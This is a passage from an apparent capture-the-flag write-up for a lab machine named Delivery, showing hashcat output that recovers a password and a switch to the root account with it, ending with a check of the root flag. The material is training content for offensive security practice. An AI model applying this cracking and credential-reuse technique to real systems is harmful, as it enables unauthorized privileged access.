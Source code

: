 ```sh
Restore.Sub.#1...: Salt:0 Amplifier:20-21 Iteration:960-1024
Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21

Started: Tue Apr 13 10:05:12 2021
Stopped: Tue Apr 13 10:05:16 2021
```
     
With this password we can now switch to the root user on the machine and grab the rootflag.

```sh
maildeliverer@Delivery:/$ su root
Password: 
root@Delivery:/# id
uid=0(root) gid=0(root) groups=0(root)
root@Delivery:/# wc -c /root/root.txt 
33 /root/root.txt
root@Delivery:/#
```
